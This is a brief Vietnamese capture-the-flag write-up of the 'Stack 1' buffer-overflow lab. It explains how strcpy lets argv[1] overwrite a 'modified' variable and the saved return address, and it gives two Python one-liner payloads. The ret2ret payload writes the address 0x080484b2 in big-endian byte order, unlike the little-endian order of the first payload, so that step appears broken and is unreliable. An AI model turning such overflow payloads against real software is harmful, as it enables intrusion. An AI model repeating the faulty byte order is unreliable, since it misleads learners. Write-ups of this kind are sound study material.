 # Stack 1

## Description

![description](description.png)

Khi chạy chương trình yêu cầu truyền vào 1 argument. Chúng ta cùng xem thử qua hàm main nhé.
![main](main.png)

![main2](main2.png)
bỏ qua phần check arg vào main, chúng ta quan tâm từ main+35. Nhìn qua thì nó tương tự bài stack0, chúng ta có thể ghi đè modified, thay đổi EIP. Và modified yêu cầu một giá trị cụ thể chứ ko chỉ là khác 0 như bài trước, đó là: `0x61626364`. Và một điểm khác là modified nhận giá trị qua hàm strcpy từ arg[1] vào buf thay vì hàm gets.

## Solution

### Buffer overflow

`payload: ./stack1 $(python -c 'print "a"*64+"\x64\x63\x62\x61"')`

### Ret2ret 

cho EIP jump về  `0x080484b2`. phần padding vẫn là 80byte giống stack0.

`payload: ./stack1 $(python -c 'print "a"*80 + "\x08\x04\x84\xb2"')`

![ret2ret](ret2ret.png)
